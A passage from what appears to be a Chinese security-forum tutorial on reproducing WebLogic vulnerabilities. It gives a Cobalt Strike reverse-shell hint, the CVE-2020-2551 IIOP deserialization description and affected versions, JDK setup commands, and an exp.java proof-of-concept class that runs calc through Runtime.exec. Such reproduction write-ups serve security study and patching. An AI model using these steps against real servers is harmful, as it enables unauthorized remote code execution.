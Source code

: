 ![image-20210814224224450](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8d8db1eea274d4dacc1425da3d7e2aadf12e7f02.png)

同理，上线cs的话把反弹的命令改了即可。

##### 安全防护

升级官方补丁：<https://www.oracle.com/security-alerts/cpuoct2020.html>

#### 10.IIOP反序列化漏洞（CVE-2020-2551）

##### 漏洞简介

2020年1月15日，Oracle官方发布2020年1月关键补丁更新公告CPU（CriticalPatch Update），其中CVE-2020-2551的漏洞，漏洞等级为高危，CVVS评分为9.8分，漏洞利用难度低。IIOP反序列化漏洞影响的协议为IIOP协议，该漏洞是由于调用远程对象的实现存在缺陷，导致序列化对象可以任意构造，在使用之前未经安全检查，攻击者可以通过 IIOP 协议远程访问 Weblogic Server 服务器上的远程接口，传入恶意数据，从而获取服务器权限并在未授权情况下远程执行任意代码.

##### 影响版本

```php
10.3.6.0
12.1.3.0
12.2.1.3
12.2.1.4
```

##### 漏洞复现

需要安装java8环境

```php
cd /opt
curl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gz
tar zxvf jdk-8u20-linux-x64.tar.gz
rm -rf /usr/bin/java*
ln -s /opt/jdk1.8.0_20/bin/j* /usr/bin
javac -version
java -version
```

这里我已经安装好

![image-20210814225849356](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-169b6b206640ac111f5801972be9d8bb0e15e40f.png)

exp.java代码

```php
import java.io.IOException;
public class exp {
    static{
        try {
            java.lang.Runtime.getRuntime().exec(new String[]{"cmd","/c","calc"});
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {

    }
}
```
